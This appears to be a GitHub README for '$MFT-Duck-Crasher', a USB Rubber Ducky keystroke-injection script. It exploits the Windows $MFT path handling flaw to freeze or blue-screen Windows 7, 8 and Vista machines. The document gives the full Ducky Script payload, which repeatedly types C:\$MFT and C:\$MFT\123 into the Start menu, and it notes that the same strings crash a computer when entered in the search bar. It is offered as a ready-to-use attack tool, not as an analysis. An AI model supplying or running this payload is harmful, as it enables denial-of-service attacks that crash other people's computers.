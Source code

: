 # -$MFT-Duck-Crasher
A Simple Script for Rubber Ducky which Exploits Windows $MFT Vulnerability
$MFT is used by NTFS systems to manage some metadata.
 This fallace has recently been discovered, which has not yet been closed. Works on windows 7, 8 and vista, dont work on windows 10. I think work on Xp and earlier.
This Script dont require any special firmware on the Rubber Ducky (TwinDuck Firmare etc.).
You can also use this two strings directly on the Windows SearchBar to crash a computer.
The system crash lasts until the machine is switched off, or until the blue screen of death appears;)

A system crash demonstration using the two strings with the following paths: c:\$MFT & c:\$MFT\123 
can be found here:
https://www.youtube.com/watch?v=vYL9UQRwUZc&t=6s






<a href="http://www.youtube.com/watch?feature=player_embedded&v=vYL9UQRwUZc
" target="_blank"><img src="http://img.youtube.com/vi/vYL9UQRwUZc/0.jpg" 
alt="$MFT" width="600" height="450" border="100" /></a> 



$MFT-Duck-Crasher Payload

REM works on w7 - w8 - Vista (and i think xp and earlier too)
REM it uses a high delay to support even older computers
DELAY 1000
<br/>
CONTROL ESCAPE
DELAY 500
STRING C:\$MFT
DELAY 500
ENTER
DELAY 700
REM the 2nd enter is to close the error
ENTER
DELAY 500
CONTROL ESCAPE
DELAY 500
STRING C:\$MFT\123
DELAY 500
ENTER
DELAY 700
ENTER
DELAY 500
CONTROL ESCAPE
DELAY 500
STRING C:\$MFT
DELAY 500
ENTER
DELAY 700
ENTER
DELAY 500
CONTROL ESCAPE
DELAY 500
STRING C:\$MFT\123
DELAY 500
ENTER
DELAY 700
ENTER
                                                            

